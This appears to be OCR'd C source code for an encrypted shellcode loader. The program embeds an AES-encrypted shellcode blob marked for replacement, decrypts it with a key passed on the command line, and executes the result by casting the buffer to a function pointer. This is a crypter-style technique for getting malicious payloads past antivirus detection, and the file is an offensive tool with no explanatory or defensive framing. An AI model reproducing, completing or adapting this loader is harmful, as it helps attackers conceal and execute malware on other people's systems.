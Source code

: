     */

    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>
    #include <openssl/aes.h>

    // GLOBAL VARIABLES
    unsigned char encrypted_shellcode[] = \
    "\xc3\xf8\x41\x52\xf0\xfc\x42\x13\xb1\x76\x52\x62\xaa\x98\x92\x3e\x99\x74\x26\x4b\x06\x48\x2d\xd7\x56\x33\x96\xc7\xc8\x24\x7a\x6e"; // to modify 

    AES_KEY dec_key;
    // Initialisation table for the shellcode
    unsigned char shellcode[100];

    // Shellcode printer
    void print_shellcode(unsigned char shellc[]) {
        int len = strlen(shellc);
        for (int i = 0; i < len; i++) {
            printf("\\x%02x", shellc[i]);
        }
    }

    // Decryption
    void decryption(unsigned char *decryption_key, int encrypted_shellcode_len){

        AES_set_decrypt_key(decryption_key, 128, &dec_key);

        // Decyption performed 16 bytes by 16 bytes
        long c = 0;
        while(c < encrypted_shellcode_len){
            AES_decrypt(encrypted_shellcode + c, shellcode + c, &dec_key);
            c += 16;
        }
    }

    int main(int argc, char* argv[])
    {
    
        unsigned char* decryption_key = (unsigned char *)argv[1];
    
        printf("Decryption started...\n");

        int encrypted_shellcode_len = strlen((unsigned char *)encrypted_shellcode);
        printf("Shellcode Length: %d\n", encrypted_shellcode_len);

        decryption(decryption_key, encrypted_shellcode_len);

        int (*ret)() = (int(*)())shellcode;

        ret();

    }
    
